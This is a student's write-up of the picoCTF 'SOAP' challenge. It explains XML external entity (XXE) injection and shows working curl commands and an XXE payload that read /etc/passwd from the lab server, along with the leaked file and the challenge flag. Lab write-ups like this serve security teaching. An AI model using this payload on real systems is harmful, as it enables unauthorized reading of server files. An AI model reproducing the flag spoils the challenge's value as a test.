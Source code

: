 # SOAP
In this challenge we were given the following website:http://saturn.picoctf.net:56852/ i had to read the flag from /etc/passwd.
We were told that the website was rushed and security features were compromised so that hints that we can exploit this somehow.
I saw the hints for the challenge and found out that i had to perform xml external entity injection(XXE).

Basically XXE is a method to read or access sensitive infor of a website by sending a malicious payload.
I had a number of ways to do this as i found out about burpsuite,postman,curl.
Since curl could be done on wsl i proceeded with that. 

To know about xxe and how to craft my payload i went to this website : https://portswigger.net/web-security/xxe

After this i went to wsl and tried using curl with a basic payload but i didnt have any info about how to make the payload i got this output for a general payload:
```
aditya_cryptonite@DESKTOP-SG1LV2M:~$ curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>' http://saturn.picoctf.net:64010/
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>
```

I found out that i could get some info from the networks tab in developer tools so i went there but saw nothing in the network traffic.
So i interacted with the website by pushing some buttons and got this :

![image](https://github.com/user-attachments/assets/4467355c-326a-455e-aa59-f6f23978acfa)

Now we have enough info to make the payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<data><ID>&xxe;</ID></data>
```
And now we will send this using curl by using the request URL: http://saturn.picoctf.net:64010/data and the request method: POST (obtained from the networks tab as well)
```
aditya_cryptonite@DESKTOP-SG1LV2M:~$  curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><data><ID>&xxe;</ID></data>' http://saturn.picoctf.net
:64010/data
```
we get the output(contents of /etc/passwd) where the flag lies :
```
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
```
### Flag:
>picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
